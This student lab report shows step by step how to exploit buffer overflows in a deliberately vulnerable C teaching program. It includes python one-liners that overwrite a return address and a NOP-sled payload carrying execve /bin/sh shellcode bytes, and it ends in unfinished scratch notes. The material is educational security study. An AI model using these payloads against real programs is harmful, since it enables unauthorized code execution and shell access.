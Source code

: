 
# Overview of Buffer Overflow Attack Example Problems
#### Sabrina Pereira and Micah Reid


<!-- Content
Your project report should answer the following questions (note that some are the same as in the proposal and the update):

1) What is the goal of your project; for example, what do you plan to make, and what should it do?

2) What are your learning goals; that is, what do you intend to achieve by working on this project?

3) What resources did you find that were useful to you.  If you found any resources you think I should add to the list on the class web page, please email them to me.

4) What were you able to get done?  Include in the report whatever evidence is appropriate to demonstrate the outcome of the project.  Consider including snippets of code with explanation; do not paste in large chunks of unexplained code.  Consider including links to relevant files.  And do include output from the program(s) you wrote.

5) Explain at least one design decision you made.  Were there several ways to do something?  Which did you choose and why?

6) You will probably want to present a few code snippets that present the most important parts of your implementation.  You should not paste in large chunks of code or put them in the Appendix.  You can provide a link to a code file, but the report should stand alone; I should not have to read your code files to understand what you did.

7) Reflect on the outcome of the project in terms of your learning goals.  Between the lower and upper bounds you identified in the proposal, where did your project end up?  Did you achieve your learning goals?

Audience: Target an external audience that wants to know what you did and why.  More specifically, think about students in future versions of SoftSys who might want to work on a related project.  Also think about people who might look at your online portfolio to see what you know, what you can do, and how well you can communicate.

 You don't have to answer the questions above in exactly that order, but the logical flow of your report should make sense.  Do not paste the questions into your final report. -->





## Project Goals
Our goal is to understand the mechanics of buffer overflow attacks, and common issues that would make a program susceptible to this type of security risk. Our minimum goal is to go through the provided exercises to perform buffer overflow attacks (provided by Steve). Our reach goals are to understand buffer overflow attacks enough to create our own programs that either have exploitable vulnerabilities, or use practices to prevent buffer overflow attacks.


We chose to learn to use the CLion IDE and debugger to do this because both us wanted to learn about what debugging tools exist, what they look like, and what capabilities they afford us.

<!-- ## Learning Goals
We hope to gain experience using a debugger as this will allow us to gain more insight into how these attacks are performed, and what is actually happening in the memory. We hope to answer questions such as:
  - How does the data get copied into the buffer?
  - What types of programs are susceptible to this type of attack?
  - How would one go about performing this type of attack?
  - How do we know if our programs would be vulnerable? -->


## What is a Buffer Overflow Attack?

<!-- A buffer overflow condition exists when a program attempts to put more data in a buffer than it can hold or when a program attempts to put data in a memory area past a buffer. In this case, a buffer is a sequential section of memory allocated to contain anything from a character string to an array of integers. Writing outside the bounds of a block of allocated memory can corrupt data, crash the program, or cause the execution of malicious code.

A buffer overflow, or buffer overrun, is a common software coding mistake that an attacker could exploit to gain access to your system. To effectively mitigate buffer overflow vulnerabilities, it is important to understand what buffer overflows are, what dangers they pose to your applications, and what techniques attackers use to successfully exploit these vulnerabilities. -->

First, a buffer overflow occurs when a program tries to put data into a buffer that is of insufficient size for the operation. There is a specific block of memory that is allocated to storing that data, and going outside those bounds can cause various issues. If you know information about how these buffers are stored and what type of information is around them, you can intentionally cause a buffer overflow in a vulnerable program and modify its normal behavior.

This may include causing the program to crash, making the program skip to a different part of its instructions, or even opening a shell for the attacker.

Three resources we used to learn about buffer overflow attacks are the following:
  - [Computerphile video on Buffer Overflow Attack](https://www.youtube.com/watch?v=1S0aBV-Waeo)
  - [Veracode - What Is a Buffer Overflow?](https://www.veracode.com/security/buffer-overflow)
  - [OWASP - Buffer Overflow](https://owasp.org/www-community/vulnerabilities/Buffer_Overflow)



## How is a Buffer Overflow Attack Executed?

There are various ways memory can be overwritten to modify the program, but one common way, and the way that we will explore, is to overwrite the return address, as the location of it will be following the buffer to be written into as a way for the program to continue. The return address will be in a determinable location. The following examples go through our process in executing a buffer overflow attack in two different ways by doing this.


## Example 1: Jump to a Unauthorized Area in the Code
For this example, we will be using example code provided to us by Professor Steve Matsumoto that [can be found here](https://github.com/syclops/buffer-overflow-examples). In this example, we have a function `load_software` that should only be run if a user has an authorized 15-character key. However, the program has no bounds checking and this is what will allow us to overwrite the return address after the function to get the user's input.

Below is the `main()` function for this program:

```
int main() {
  puts("Enter your 15-character license key:");
  char key[BUFFER_SIZE];
  getbuf(key);
  if (validate(key)) {
    load_software();
    return 0;
  }
  return 1;
}
```



### Step 1: Figure how the data is stored in the buffer
To do this, made use of both the knowledge we learned in class, and learned how to use some of CLion's debugging tools, specifically the breakpoints and Memory View.

Looking at the `main()` function, we have a function `getbuf()` that will be put on the stack.

```
void getbuf(char* buf) {
  gets(buf);
}
```

This function `gets` fills the buffer from user standard input
entry.

![](images/getbuf_pre.png)

We see that once we process the input, the data is stored in the buffer from a lower memory address to a higher memory address.

![](images/getbuf_post.png)


### Step 2. Figuring out return address on the stack
From the Memory View, we can also see where the return address is on the stack. We can see that the address for `main` on the Frames pane is the same address that is 8 bytes from our buffer's end (including the null terminator) in little endian format.

![](images/return_addr.png)


- Stack stores return address 8 bytes from last array element

### Step 3. Figure out the address of `load_software`
To find out the memory address for the function we wanted to jump to, we used GDB's `info address`. In this example, we have the address `0x401e16`.

![](images/info_addr.png)


### Step 4. Overwriting return address
Using all of this information, we can overwrite the return address for `getbuf()` that stored in memory such that it looks something like this, inputting the desired address to jump to in little endian format:


![](images/overflow_mem_view_marked.png)

One way to do this is by running something like the following as was done in this example that allows you to input raw bytes using `\x` and see the result:

```
python3 -c 'import sys; sys.stdout.write("1111122222333330111222\x16\x1e\x40")' | ./foo
```
![](images/buffer_overflow_res.png)


## Example 2: Executing Shell Code
This example follows a similar structure to the previous, but instead of overwriting the buffer code such that the return address is set to jump the `load_software` function, we fill the buffer up with a sequence of bytes in our shellcode and have the return address jump to the start of that sequence.


This example will use the same [code as Example 1]((https://github.com/syclops/buffer-overflow-examples)) and shellcode found [here](http://shell-storm.org/shellcode/files/shellcode-603.php)). However, we will change the example code such that `BUFFER_SIZE = 64` as this example will require a given buffer large enough to fit our shellcode.


### Step 1: Set up text input

For this attack we are trying to fit our shell code into 64 bytes, along with our no-ops. In bytes, our shell code is written as `b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05`.

Our shell code is 30 bytes, so we can add 34 no-ops to our shell code to fill the buffer. We will write this to a text file for ease of use. using the following code:

`python3 -c 'import sys; sys.stdout.buffer.write( b"\x90"*34 + b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05")' > ex.txt
`

### Step 2: Find address of buffer input

From our example code, we can see that our `getbuf`function is on line 34, and we can enter a breakpoint there. We don't want to call this line of code, but inside of this function we have the line of code that opens our buffer, so we can find the address through this method.

![](images/getbufstop.png)

For this attack we will use GDB to view the memory view, since CLion has a security feature implemented that changes stack addresses on each compile, making this attack impossible to carry out.

So, after we build our program using cmake (NOT using CLion build), we can run our debugger.

We can step into this function using the `s` command, and then view the first 100 adresses in the stack using the `x/100x $sp` command. Since we have put a series of `\90`s, we can easily see where our input begins.

![](images/new_address.png)

In the stack we can see our no ops start at the address `0x7fffffffdbc0`.

### Step 3: Replace return address

In order to execute this attack, we need to replace the return address with the address we selected in the last step, so that we can go back through the shell code and progress from the no op sled to the attacks.

To do this, we must convert our address to a little endian format. This means we will input the address in byte form as `\xc0\xdb\xff\xff\xff\xff\xff\x7f`. We can add this to our text file with the following code:

`python3 -c 'import sys; sys.stdout.buffer.write( b"\x90"*26 + b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + b"\xc0\xdb\xff\xff\xff\xff\xff\x7f" * 2)' > ex.txt
`








<!-- python3 -c 'import sys; sys.stdout.write( "\x90"*10 + "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + "\xc4\x2f\x4c")' | ./foo -->


<!-- right function but wrong contents, has right shellcode -->

Sabrina stack address : 7fff ffffd8a0

\xff\x7f\x00\x00   \xa0\xd8\xff\xff

64 + 8 - 30 - 8 = 34
64 + 4 - 30 - 8 = 32
<!--
python3 -c 'import sys; sys.stdout.buffer.write( b"\x90"*10 + b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + b"\xc4\x2f\x4c")' > ex.txt -->





<!--
Submission Mechanics

1) In your project report, you should already have a folder called "reports" that contains a Markdown document called "update.md".  Make a copy of "update.md" called "report.md"

2) At the top of this document, give your report a title that at least suggests the topic of the project.  The title should not contain the name of the class or the words "project" or "report".

3) List the complete names of all members of the team.

4) Answer the questions in the Content section, above. Use typesetting features to indicate the organization of the document.  Do not include the questions as part of your document.

5) Complete your update, view it on GitHub, and copy the GitHub URL.  Then paste the URL in the submission space below.  You only need one report for each team, but everyone should submit it. -->
